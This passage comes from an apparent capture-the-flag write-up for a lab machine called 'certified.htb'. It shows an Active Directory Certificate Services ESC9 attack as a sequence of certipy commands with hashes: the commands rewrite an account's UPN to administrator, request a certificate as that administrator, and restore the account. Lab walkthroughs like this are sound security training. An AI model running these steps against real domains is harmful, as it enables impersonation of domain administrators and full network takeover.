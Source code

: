 <br><br>

In our case, if a user has permissions to enroll in certain AD Certificate Templates, they can request certificates that 
allow them to impersonate other users. Including *Domain Admins*. Requisites for ESC9 are:

<br>

	GenericWrite over any account A to compromise any account B

<br><br>

It looks like we're set. To perform the attack we just need the hash of the user allowed to enroll in the certificate template. 
This is an easy one. We set the password to be Password1. Quick visit to https://www.browserling.com/tools/ntlm-hash gives us the hash.

<br>

	64f12cddaa88057e06a81b54e73b949b
	
<br><br>

We start by updating the ca_operator account to administrator:

<br>

    $ certipy account update -username management_svc@certified.htb -hashes a091BLABLABLA5584 -user ca_operator -upn administrator

<br>

![Pasted image 20241109174958](https://github.com/user-attachments/assets/d341d033-84f2-4e07-abfb-9aa075da6d09)

<br><br>

Then we have to request the certificate on behalf of administrator:

<br>

	$ certipy req -username ca_operator@certified.htb -hashes 64f12cddaa88057e06a81b54e73b949b -ca certified-DC01-CA -template CertifiedAuthentication

<br>

![Pasted image 20241106075929](https://github.com/user-attachments/assets/1dc57512-106a-4c3b-b365-9f028b3229b2)

<br><br>

Revert ca_operator account to normal:

<br>

	$ certipy account update -username management_svc@certified.htb -hashes a091BLABLABLA5584 -user ca_operator -upn ca_operator@certified.htb

<br>

![Pasted image 20241109174845](https://github.com/user-attachments/assets/d49bb779-6745-4b15-920f-c0c7ba319257)

<br><br>
